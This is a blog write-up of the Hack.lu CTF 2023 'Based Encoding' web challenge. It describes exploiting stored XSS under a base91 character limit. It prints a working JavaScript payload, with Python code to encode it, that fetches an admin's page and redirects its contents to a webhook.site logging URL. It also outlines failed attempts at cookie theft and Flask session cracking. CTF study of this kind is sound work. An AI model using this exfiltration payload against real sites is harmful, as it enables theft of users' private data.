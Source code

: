 ```yaml
---
layout: post
title: "Hack.lu CTF based encoding web challenge writeup"
date: 2023-10-15 22:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-based-encoding
---
```


## Based Encoding

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**

Challenge name: **Based Encoding**

Challenge description:

```text
Based encoding as a service. But can we insert a little tomfoolery? Let's find out.
```

Challenge category: **web**

Challenge points: **82**

When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

report a `base91` encoded _note_ to admin (**XSS** with limited character set)

```python
# btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</script><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

### Description

![description](/assets/images/2023-10-19/image-1.png)

Challenge was marked as **beginner friendly**. You're greet with a login page. After signing up you get an access to list, create and report (to admin) _encodings_

| ![login page](/assets/images/2023-10-19/image.png) | ![create encoding](/assets/images/2023-10-19/t1.png) | ![view encoding](/assets/images/2023-10-19/t2.png) | ![list all encodings](/assets/images/2023-10-19/t3.png) |
| -------------------------------------------------- | ---------------------------------------------------- | -------------------------------------------------- | ------------------------------------------------------- |

After checking the source code and `view_encoding.html` file we can see that it's vulnerable to XSS

![Alt text](/assets/images/2023-10-19/image-5.png)

Inside the `app.py` file you find a flag. It's in a database, but only admin knows the id. So the idea is to prepare an encoding with some XSS, report it to the admin, and steal the id and get the flag 😉

![Alt text](/assets/images/2023-10-19/image-7.png)

Our `XSS` script will be encoded using `base91` which means we're limited to the `base91_alphabet`. Other characters will be lost during encoding process

![Alt text](/assets/images/2023-10-19/image-6.png)

Let's analyze the most important file of this challenge. Inside the `app.py` there's the `/create` function where we find the encoding logic

```python
encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
```

First observation is that you can send encodings as a `.hex()`. Second is that encoding a decoded value will give you the same value (but again, we're limited to the `base91_alphabet`)

```python
result = based91.encode(based91.decode('YOUR_EVIL_SCRIPT_but_._and_ _spaces_ _are_missing'))
print (result)

# YOUR_EVIL_SCRIPT_but__and__spaces__are_missisB
```

Now it's time to prepare a JS script which will steal the admin decodings. Remember we can't use spaces and `.` so we need to access the object using `[]`. Let's fetch `/`, then redirect a user to our server with the page data as a query parameter. We used [webhook.site](https://webhook.site) as a temporary log server

```javascript
// btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

fetch("/")
  ["then"]((data) => data["text"]())
  ["then"](
    (html) =>
      (location =
        atob("aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=") +
        btoa(html))
  );
```

Now it's time to decode and parse it to hex. Have you noticed these trash characters from before? We've got `missisB` instead of `missing`. It may break our closing `</script>` tag. We'll get rid of this issue by simply adding some random tag at the end of the script

```python
import based91
script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

Now it's time to create an encoding. We can see the redirect is working (we're redirected after creating this decoding). Let's grab an id, report it to admin and check our log server

![Alt text](/assets/images/2023-10-19/image-8.png)

And we've got something! Let's decode the data

![Alt text](/assets/images/2023-10-19/image-9.png)

And here's the id! Let's go back to the challenge page, open random decoding and replace the id url parameter

![Alt text](/assets/images/2023-10-19/image-10.png)

so the `flag` is

```text
flag{bas3d_enc0dings_str1p_off_ur_sk1n}
```

### wrong path 1

Trying to steal an admin cookie which was protected by `httpOnly` flag and not accessible via `document.cookie` from the FE

![http only cookie flag](/assets/images/2023-10-19/image-2.png)

### wrong path 2

Trying with different versions of `eval` with the `no-eval` policy in place

![content security policy](/assets/images/2023-10-19/image-3.png)

### wrong path 3

Decoding `session` using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) and [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist). Secret is long, random so nearly impossible to crack

![flask-unsign-result](/assets/images/2023-10-19/image-4.png)

{% include posts_footer.html %}
